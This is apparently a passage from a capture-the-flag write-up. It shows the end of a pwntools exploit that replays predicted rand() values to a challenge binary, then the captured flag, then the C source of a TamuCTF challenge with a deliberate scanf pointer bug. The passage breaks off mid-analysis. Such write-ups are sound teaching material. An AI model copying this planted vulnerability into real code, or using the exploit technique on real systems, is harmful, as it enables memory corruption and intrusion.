 ```python
     
    with open("numeri_casuali.txt", "r") as f:
    	for l in f:
     		num.append(l)
     
     
    for i in num:
    	io.sendline(str(i))	
    io.interactive()
```
 Because every second the numbers generated are different we need to run simultaneously our program and the binary.
 Running the exploit we get our shell (this time there was a win function, in the other binary we get directly the content of flag.txt)

     $ cat flag*
    TFCCTF{W0W!_Y0U_GU3SS3D_TH3M_4LL!@!}

# Bonus: Randomness (Tamu CTF)
What if we are given the opportunity to enter a seed and a guess? Seems easy right? RIGHT? This time we are going to exploit a different vulnerability...
We have the source code :
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void win() {
    char* argv[] = {"/bin/cat", "flag.txt", NULL};
    execve(argv[0], argv, NULL);
}

void foo() {
    unsigned long seed;
    puts("Enter a seed:");
    scanf("%lu", &seed);
    srand(seed);
}

void bar() {
    unsigned long a;

    puts("Enter your guess:");
    scanf("%lu", a);

    if (rand() == a) {
        puts("correct!");
    } else {
        puts("incorrect!");
    }
}


int main() {
    puts("hello!");
    foo();
    bar();
    puts("goodbye!");
}
```
Code Review: There is a win function, but this time is not called anywhere, reading again the description
